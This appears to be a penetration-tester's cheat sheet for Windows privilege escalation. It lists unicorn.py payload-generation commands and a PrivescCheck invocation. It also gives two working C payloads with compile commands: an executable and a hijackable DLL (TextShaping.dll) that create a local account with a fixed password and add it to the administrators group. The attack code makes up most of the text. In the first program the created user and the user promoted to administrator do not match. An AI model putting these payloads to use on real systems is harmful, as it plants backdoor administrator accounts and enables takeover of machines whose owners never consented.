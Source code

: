 ```
CRT Example: python unicorn.py <path_to_payload/exe_encode> crt
Custom PS1 Example: python unicorn.py <path to ps1 file>
Custom PS1 Example: python unicorn.py <path to ps1 file> macro 500
Cobalt Strike Example: python unicorn.py <cobalt_strike_file.cs> cs (export CS in C# format)
Custom Shellcode: python unicorn.py <path_to_shellcode.txt> shellcode (formatted 0x00)
Help Menu: python unicorn.py --help
```

#### Add user exe from C script
```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user poellie password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}

x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
### Priv Esc Checker
https://github.com/itm4n/PrivescCheck/tree/master
```
Import-Module ./PrivEschChecker.ps1
Invoke-PrivEscCheck
```

#### Basic DLL to add user 
```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave3 password123! /add");
  	    i = system ("net localgroup administrators dave3 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}

x86_64-w64-mingw32-gcc TextShaping.cpp --shared -o TextShaping.dll
```
